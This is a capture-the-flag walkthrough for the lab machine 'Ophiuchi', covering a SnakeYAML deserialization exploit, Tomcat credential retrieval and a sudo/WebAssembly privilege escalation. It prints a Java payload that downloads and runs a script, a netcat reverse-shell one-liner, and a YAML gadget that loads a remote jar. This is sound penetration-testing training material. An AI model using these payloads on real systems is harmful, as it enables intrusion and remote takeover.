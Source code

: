 ## Ophiuchi

Difficulty: Medium

### User Flag

#### Foothold

```
rustscan -a 10.10.10.227 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/636583c8-8c44-4a50-9b89-df58f364a145)

<br>

The website has a YAML Parser function. If we put correct data, we see the function is disabled by security reasons.  

If you put badly formatted data, we discover that the website is using snakeyaml behind it.

![website](https://github.com/b1d0ws/OSCP/assets/58514930/9059abb1-80d6-47b6-8f15-c821ae69d6e5)

![correctYAML](https://github.com/b1d0ws/OSCP/assets/58514930/43c4b2a6-2314-4d2f-b9b4-000a38156870)

![incorretYAML](https://github.com/b1d0ws/OSCP/assets/58514930/0ffa1797-89cc-4e37-9da5-1320ada38fca)

<br>

Searching for snakeyaml exploit, we find [this useful article](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858) about deserilization.

![searchingExploit](https://github.com/b1d0ws/OSCP/assets/58514930/aac2dff0-ff83-4765-8203-432b47998b46)

<br>

To exploit this RCE, we can use the method describe in [this github](https://github.com/artsploit/yaml-payload).

```
gedit src/artsploit/AwesomeScriptEngineFactory.java

Runtime.getRuntime().exec("curl http://10.10.14.11:8000/reverse.sh -o /tmp/reverse.sh");
Runtime.getRuntime().exec("bash /tmp/reverse.sh");

nano reverse.sh
#!/bin/sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.11 7070 >/tmp/f

javac --release 8 src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf payload.jar -C src/ .

!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.11:8000/payload.jar"]
  ]]
]
```

![puttingCommand](https://github.com/b1d0ws/OSCP/assets/58514930/e81ed25f-bc44-4cf5-9fef-5d68aba0c235)

![exploitingRCE](https://github.com/b1d0ws/OSCP/assets/58514930/fdd08dbc-6335-4c17-8b4c-751eded4e94d)

![callingRCE](https://github.com/b1d0ws/OSCP/assets/58514930/b07c6aad-3f0c-423b-84f3-13dd8e6f7f54)

<br>

#### Admin User

You can find admin password inside /opt/tomcat/conf/tomcat-users.xml.

![tomcatUsers](https://github.com/b1d0ws/OSCP/assets/58514930/07591b93-4e03-4e79-808e-33a312e14fdc)

![adminPassword](https://github.com/b1d0ws/OSCP/assets/58514930/beb7bb32-04c5-4fb8-9e1c-02baddeb1edd)

<br>

### Root Flag

sudo -l indicates that we can run a go file. We need to reach the "else" part of the condition to execute deploy.sh.  

To do that, the variable f needs to be 1 and this depends on the main.wasm file.  

![sudo -l](https://github.com/b1d0ws/OSCP/assets/58514930/0eef416d-e494-4b77-b601-e6232cd78f8a)

There are two ways to do this.  

We can create a main.c file with "info" function returning 1 and convert to wasm.

```C
#include <emscripten.h>

EMSCRIPTEN_KEEPALIVE
int info() {
    return 1;
}
```

```
emcc main.c -o main.wasm -s EXPORTED_FUNCTIONS="['_info']" -s EXTRA_EXPORTED_RUNTIME_METHODS="['ccall']" --no-entry

sudo /usr/bin/go run /opt/wasm-functions/index.go
```

![rootWay1](https://github.com/b1d0ws/OSCP/assets/58514930/96c4ca81-634c-40f7-834f-9c03dded4d64)

<br>

Or use wasm (Web Assembly) tools to convert wasm to wat and edit this file to return 1.

```
wabt/bin/wasm2wat main.wasm -o main.wat
nano main.wat
wabt/bin/wat2wasm main.wat

sudo /usr/bin/go run /opt/wasm-functions/index.go
```

![wasm2wat](https://github.com/b1d0ws/OSCP/assets/58514930/1e8358e1-4cf5-4cfa-b102-70e0751a82f3)

![editingMainWasm](https://github.com/b1d0ws/OSCP/assets/58514930/da1f4086-066e-408f-aa02-b995a223b1b5)

![rootWay2](https://github.com/b1d0ws/OSCP/assets/58514930/7c007881-f26c-4cc3-96ec-0e0df34948eb)
